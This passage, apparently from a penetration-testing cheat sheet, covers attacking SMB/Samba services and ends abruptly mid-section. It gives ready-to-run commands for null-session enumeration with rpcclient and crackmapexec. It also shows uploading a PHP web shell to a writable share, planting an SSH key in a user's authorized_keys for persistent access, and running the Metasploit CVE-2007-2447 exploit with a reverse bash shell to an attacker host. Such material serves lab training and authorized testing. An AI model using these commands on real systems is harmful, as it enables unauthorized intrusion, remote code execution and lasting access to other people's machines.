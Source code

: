 7) rpcclient (user/share policy via RPC)
```
rpcclient -U "" -N $TARGET
# Inside rpcclient:
srvinfo
enumdomusers
queryuser 0x1f4
getdompwinfo
lookupnames Administrator root nobody
lsaquery
```

8) crackmapexec (quick shares and version)
```
# Null session check
crackmapexec smb $TARGET --shares -u '' -p ''

# With creds
crackmapexec smb $TARGET --shares -u user -p 'password'
```

9) Writable share abuse examples (non-exploit RCE paths)
- If a share maps to a web root (e.g., /var/www/html), upload a web shell and trigger via HTTP:
```
# PHP web shell example (if web server + PHP)
echo '<?php system($_GET["cmd"]); ?>' > shell.php
smbclient //$TARGET/WEBROOT -N -c 'put shell.php'
# Then browse: http://TARGET/shell.php?cmd=id
```
- If you have a user home share, drop an SSH key:
```
# Generate key on attacker
ssh-keygen -t rsa -b 2048 -f id_rsa_smb -N ""

# Upload authorized_keys into target user's ~/.ssh/
smbclient //$TARGET/homes -U 'user%password' -c 'mkdir .ssh; put id_rsa_smb.pub .ssh/authorized_keys'
# Then SSH in:
ssh -i id_rsa_smb user@$TARGET
```

10) Version-based exploitation (searchsploit and Metasploit)
- Identify Samba version from Nmap/enum.
- Look up exploits:
```
searchsploit samba 3.0
searchsploit samba 2.2
searchsploit samba | grep -i 'username map\|usermap\|trans2open\|pipename'
```

11) Metasploit: CVE-2007-2447 “username map script” (Samba 3.0.20–3.0.25rc3)
- Common in training labs; results in remote command execution.
```
msfconsole -q
use exploit/multi/samba/usermap_script
set RHOSTS $TARGET
set RPORT 445
# Choose a simple CMD reverse payload (works well for this exploit)
set PAYLOAD cmd/unix/reverse_bash
set LHOST LHOST
set LPORT LPORT
run
# After shell:
id
uname -a
```
- If reverse_bash fails, try:
```
```